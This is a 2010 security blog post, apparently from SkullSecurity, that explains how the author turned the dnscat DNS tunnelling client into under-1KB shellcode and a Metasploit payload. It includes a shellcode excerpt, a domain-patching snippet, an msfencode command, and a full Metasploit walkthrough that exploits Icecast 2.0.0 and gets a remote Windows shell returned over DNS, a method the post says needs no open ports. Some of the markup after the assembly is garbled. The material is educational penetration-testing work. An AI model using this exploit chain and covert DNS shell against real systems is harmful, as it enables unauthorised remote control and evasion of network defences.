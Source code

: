 ```yaml
---
id: 619
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-17T20:36:04-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=619'
permalink: '/?p=619'
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode (or "weaponizing dnscat", as I enjoy saying). Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86 at a time, nor have I ever written shellcode, so this was an awesome learning experience. Most people start by writing shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes (in both Linux and Windows). Like I always say, go big or go home!  
  
If you just want to grab the files, here are some links:

- [Win32 shellcode - assembler](/blogdata/dnscat-shell-win32.asm)
- [Win32 shellcode - binary](/blogdata/dnscat-shell-win32)
- [Win32 shellcode - C array](/blogdata/dnscat-shell-win32.h)
- [Win32 Metasploit module](/blogdata/dnscat-shell-win32.rb)
- [Linux shellcode - assembler](/blogdata/dnscat-shell-linux.asm)
- [Linux shellcode - binary](/blogdata/dnscat-shell-linux)
- [Linux shellcode - C array](/blogdata/dnscat-shell-linux.h)

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:

```
svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make
```

That'll compile both dnscat (the client + server) and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it (I used Cygwin) -- you can compile the Windows shellcode on Linux and vice versa, though. The output will be in samples/shellcode-\*/. A .h file containing the C version will be generated, as well:

```
$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
```

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:

```
 $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
```

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:

```
get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; 
<p>The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. </p>
<h2>Encoding with msfencode</h2>
<p>msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:</p>
$ msfencode -b "\x00"  dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)

<p>If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. </p>
<h2>Metasploit payload</h2>
<p>Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. </p>
<p>First, there are a number of caveats:</p>
```

- This is highly experimental
- This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the system
- This is set up as a single stage, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities

That being said, it also works great when it's usable. The target I use for testing is [Icecast 2 version 2.0.0](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs. It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are,

1. Install [Icecast2](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) on your victim machine (Win32)
2. Download the experimental dnscat [Metasploit module](/blogdata/dnscat-shell-win32.rb) and put it in your Metasploit directory (modules/payloads/singles/windows/)
3. Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the [dnscat wiki](/wiki/index.php/Dnscat) for more information
4. Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:
```
msf > use exploit/windows/http/icecast_header         
msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32
msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221
msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org
msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
```

Meanwhile, on your dnscat server, if all went well, you should see:

```
$ sudo ./dnscat --listen
Waiting for DNS requests for domain '*' on 0.0.0.0:53...
Switching stream -> datagram
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Program Files\Icecast2 Win32>
```

You can type commands in, and they'll run just like a normal shell. Be warned, though, that it is somewhat slow, due to the nature of going through DNS.

## Why bother?

The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

## Feedback

As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code.

Thanks!